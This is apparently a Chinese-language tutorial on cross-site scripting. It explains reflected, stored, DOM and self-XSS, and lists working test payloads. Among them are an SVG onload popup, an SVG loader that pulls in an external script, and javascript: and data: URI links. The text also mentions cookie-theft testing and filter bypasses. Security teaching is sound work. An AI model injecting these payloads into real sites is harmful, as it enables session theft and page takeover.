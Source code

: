 #### 第一类：

如果攻击payload存于url中，受害者需要访问特定携带payload的url才会中招，并且payload并不会入库即不会存储持续触发，则可以称此类型的XSS漏洞为反射型XSS
比如网页通过调用当前页面get传入的参数显示到页面中。
这类XSS最好防范，危险系数也相对较低，但存在数量较多，挖掘成本低

大致流程：访问页面进行构造闭合测试，查看源码或者F12使用开发者工具进行修改调试，能弹窗后进行cookie获取测试

值得一提的是：目前浏览器有自带filter过滤，除火狐浏览器，其他浏览器针对一般的XSS攻击payload已经有了自己的防范机制(放弃加载并警告用户)，为了bypass这一机制，需要进行特殊的编码构造，这又是一门学问。

#### 第二类：

如果攻击payload可以入库，并且长期反应在某一页面中，受害者只要浏览了特定页面就会中招，则称此类型为储存型XSS。
这类XSS危害大，挖掘成本较高(需要目标站的提交数据权限)
大致流程:
通过修改个人资料或提交留言行为进行测试，一般提交一串xss sheet 或者自己觉得好用的payload，当弹框成功后再考虑构造进一步攻击。

根据构造闭合代码性质不同(html标签or页面JS代码)，还可分为普通XSS和Dom型XSS。

笔者曾经挖到过CNZZ个人管理页面的DOM储存型XSS，但是属于self-xss，即只有自己能中招的XSS（其他用户访问不到这个页面），如果不能结合CSRF漏洞则比较鸡肋,属于SRC混分行为。

### 三.一些经典测试payload：

##### 笔者最喜欢用的payload是：

```
"><svg/onload=alert(1)//
```
当时拿着这段payload这插插那插插，一天就过去了，玩的不亦乐乎
现在想想，这段短小的payload伴随了我测试XSS漏洞的整个时光~

##### 具体引用外部js的代码姿势是:

```
<svg/onload=s=createElement('script');body.appendChild(s);s.src='js地址'//
```

在火狐浏览器下查看的效果(浏览器解析时会自动加上引号):

![](pics/svg.png)

##### a标签伪协议执行

```
<a href="javascript:alert(1)" >click me</a>
```

 ##### data引用外域资源

```
<a href="data:text/html;base64,这里跟着base64之后的js代码">click here</a>
```
